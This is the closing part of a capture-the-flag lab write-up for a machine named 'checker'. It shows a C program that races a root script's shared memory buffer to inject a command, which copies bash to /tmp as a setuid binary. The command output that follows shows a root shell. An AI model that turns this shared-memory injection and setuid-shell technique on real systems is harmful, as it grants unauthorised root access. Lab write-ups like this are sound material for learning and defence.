 The program writes a string to a shared memory buffer, sleeps for one second, and then uses that buffer to craft a command sent to `popen`. If I can change that memory, I can command inject to run arbitrary commands as root.

The payload could be (I am not talented in this part, payload from `0xdf`)
```
#include <stdio.h>
#include <stdlib.h>
#include <time.h>
#include <sys/shm.h>

int main() {
    time_t now = (unsigned int) time(NULL);
    srand(now);
    int key = rand() % 0xfffff;
    int shmid = shmget(key, 0x400, 0x3b6);
    char *h_shm = shmat(shmid, (void *) 0, 0);
    snprintf(h_shm, 0x400, "Leaked hash detected at whenever > '; cp /bin/bash /tmp/wither; chmod 6777 /tmp/wither;#");
    shmdt(h_shm);
}
```

Then let's upload it and run it 
```
reader@checker:~$ while true; do ./shell ; done
```

Then start another shell
```
reader@checker:~$ sudo /opt/hash-checker/check-leak.sh bob
Password is leaked!
Using the shared memory 0x13A27 as temp location
ERROR 1064 (42000) at line 1: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '"' at line 1
Failed to read result from the db
reader@checker:~$ ls /tmp
snap-private-tmp                                                                systemd-private-0e17ef9ea7d447aa980a7ae5a33fa2fa-systemd-resolved.service-XXV381   wither
systemd-private-0e17ef9ea7d447aa980a7ae5a33fa2fa-apache2.service-lb7Ihb         systemd-private-0e17ef9ea7d447aa980a7ae5a33fa2fa-systemd-timesyncd.service-YzyReX
systemd-private-0e17ef9ea7d447aa980a7ae5a33fa2fa-systemd-logind.service-461ZO1  vmware-root_604-2731152132
reader@checker:~$ /tmp/wither -p
wither-5.1# id
uid=1000(reader) gid=1000(reader) euid=0(root) egid=0(root) groups=0(root),1000(reader)
wither-5.1# 
```


# Description
For the footpath, it is very interesting to use `LFI` to get the 2FA code.
For the root, I am not talented in reverse engineering and binary vulnerable, so please check it from others.